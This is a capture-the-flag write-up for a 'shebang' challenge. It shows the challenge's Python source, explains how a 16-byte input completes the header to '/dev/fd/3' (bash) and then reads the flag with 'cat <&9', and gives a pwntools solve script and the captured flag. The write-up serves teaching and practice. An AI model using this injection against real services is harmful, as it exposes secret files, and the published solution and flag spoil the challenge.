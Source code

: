 
# shebang

## Description

```
Category: Bash
Difficulty: Easy
Author: nopinjector

Shebang provides us with nice kernel-supported execution functionality since 1980.

Challenge Files: shebang.py Dockerfile ynetd
```

## Analysis

We have 3 files, but `shebang.py` is the important one:

```python
#!/usr/bin/python3 -u
import os
import secrets

NOBODY = 65534
NOGROUP = 65534


def check_input(data):
    if b'.' in data:
        os._exit(1)


def main():
    os.open('/bin/bash', os.O_RDONLY)
    fd = os.open('./flag', os.O_RDONLY)
    os.dup2(fd, 9)

    path = os.path.join('/tmp', secrets.token_hex(16))

    print("#!/d", end="")
    data = os.read(0, 0x10)
    os.close(0)
    check_input(data)

    fd = os.open(path, os.O_CREAT | os.O_RDWR, 0o777)
    os.write(fd, b'#!/d' + data)
    os.close(fd)

    pid = os.fork()
    if pid == 0:
        os.setresgid(NOGROUP, NOGROUP, NOGROUP)
        os.setresuid(NOBODY, NOBODY, NOBODY)
        try:
            os.execv(path, [path])
        except:
            os._exit(-1)
    else:
        os.waitpid(pid, 0)
        os.unlink(path)


if __name__ == '__main__':
    main()
```

Let's break it down. We can't use `.` in our input:

```python
def check_input(data):
    if b'.' in data:
        os._exit(1)
```

`main` opens 2 files right away. `/bin/bash` at fd `3`, and `./flag` which it dups to fd `9`.

```python
    os.open('/bin/bash', os.O_RDONLY)
    fd = os.open('./flag', os.O_RDONLY)
    os.dup2(fd, 9)
```

Then it prompts for 16 bytes of input, prepends it with `#!/d`, and writes the contents to a file under `/tmp`:

```python
    path = os.path.join('/tmp', secrets.token_hex(16))

    print("#!/d", end="")
    data = os.read(0, 0x10)
    os.close(0)
    check_input(data)

    fd = os.open(path, os.O_CREAT | os.O_RDWR, 0o777)
    os.write(fd, b'#!/d' + data)
    os.close(fd)
```

After that, it forks and the child calls `execv` on our new temp file.

```python
    pid = os.fork()
    if pid == 0:
        os.setresgid(NOGROUP, NOGROUP, NOGROUP)
        os.setresuid(NOBODY, NOBODY, NOBODY)
        try:
            os.execv(path, [path])
        except:
            os._exit(-1)
```

Since the string always starts with `#!/d`, we need to use what we can under `/dev`.

```
kali@kali:~/Downloads$ ls /dev
autofs           full          port    snapshot  tty17  tty31  tty46  tty60      vcs    vcsu
block            fuse          ppp     snd       tty18  tty32  tty47  tty61      vcs1   vcsu1
bsg              hidraw0       psaux   sr0       tty19  tty33  tty48  tty62      vcs2   vcsu2
btrfs-control    hpet          ptmx    stderr    tty2   tty34  tty49  tty63      vcs3   vcsu3
bus              hugepages     pts     stdin     tty20  tty35  tty5   tty7       vcs4   vcsu4
cdrom            initctl       random  stdout    tty21  tty36  tty50  tty8       vcs5   vcsu5
char             input         rfkill  tty       tty22  tty37  tty51  tty9       vcs6   vcsu6
console          kmsg          rtc     tty0      tty23  tty38  tty52  ttyS0      vcs7   vcsu7
core             log           rtc0    tty1      tty24  tty39  tty53  ttyS1      vcsa   vfio
cpu_dma_latency  loop-control  sda     tty10     tty25  tty4   tty54  ttyS2      vcsa1  vga_arbiter
cuse             mapper        sda1    tty11     tty26  tty40  tty55  ttyS3      vcsa2  vhci
disk             mem           sda2    tty12     tty27  tty41  tty56  uhid       vcsa3  vhost-net
dri              mqueue        sda5    tty13     tty28  tty42  tty57  uinput     vcsa4  vhost-vsock
dvd              net           sg0     tty14     tty29  tty43  tty58  urandom    vcsa5  zero
fb0              null          sg1     tty15     tty3   tty44  tty59  vboxguest  vcsa6
fd               nvram         shm     tty16     tty30  tty45  tty6   vboxuser   vcsa7
kali@kali:~/Downloads$ ls /dev/fd
0  1  2  3
```

We should be able to do something with fd 3 (`/bin/bash`) and fd 9 (`./flag`).

## Solution

After a bit of trial-and-error, this is what I ended up with:

```python
#!/usr/bin/python3
from pwn import *

#context.log_level='DEBUG'
#p = process(['./shebang.py'])
#p = process(['ncat', 'localhost', '1024'])
p = process(['ncat', '--ssl', '7b00000060bf195c66261d67.challenges.broker5.allesctf.net', '1337'])
p.recvuntil('#!/d')
p.sendline('ev/fd/3\ncat <&9')
flag = p.recvline().rstrip()
print(flag)
```

That will use the open file descriptors to create and execute the equivalent of this bash script:

```bash
#!/bin/bash
cat ./flag
```

Run it against the remote service and we get our flag:

```
kali@kali:~/Downloads$ ./shebang_solve.py 
[+] Starting local process '/usr/bin/ncat': pid 23080
b'ALLES{reusing_filedescriptors_saves_resources}'
```

